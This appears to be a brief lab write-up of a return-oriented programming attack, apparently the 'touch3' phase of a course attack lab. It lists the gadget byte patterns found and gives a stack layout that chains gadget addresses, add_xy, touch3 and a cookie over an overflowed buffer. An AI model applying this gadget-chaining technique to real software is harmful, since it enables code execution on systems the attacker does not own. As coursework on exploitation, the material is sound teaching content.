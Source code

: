 ### step by step solution

no pop %rsi

only find `mov %rcx,%rsi`  `89 ce`

no pop %rcx

find `mov %rdx,%rcx` `89 d1`

no pop %rdx

find `mov %rax,%rdx`  `89 c2`

pop %rax

finish step1

---

not %rsp -> %rdi

only find %rsp -> %rax `89 e0`

find %rax->%rdi `89 c7`

finish step 2

---

call add_xy

---

already find %rax->%rdi `89 c7`

finish step 4

---

call touch 3

---

The stack

```
+-------------------+
|      cookie       |
+-------------------+
| address of touch3 | 0x401c73
+-------------------+
|     getval_440    | 0x401d07 + 1 = 0x401d08
+-------------------+
| address of add_xy | 0x401d42
+-------------------+
|     getval_440    | 0x401d07 + 1 = 0x401d08
+-------------------+ <--%rsp
|     getval_288    | 0x401d9e + 1 0x401d9f `mov %rsp,%rax`
+-------------------+
|     addval_122    | 0x401d61 + 3 = 0x401d64
+-------------------+
|     setval_183    | 0x401df3 + 3 = 0x401df6
+-------------------+
|     setval_153    | 0x401dd8 + 2 = 0x401dda
+-------------------+
|       offset      | 32 = 0x20
+-------------------+
|     addval_370    | 0x401d29 + 2 = 0x401d2b
+-------------------+
|       buffer      |
+-------------------+
```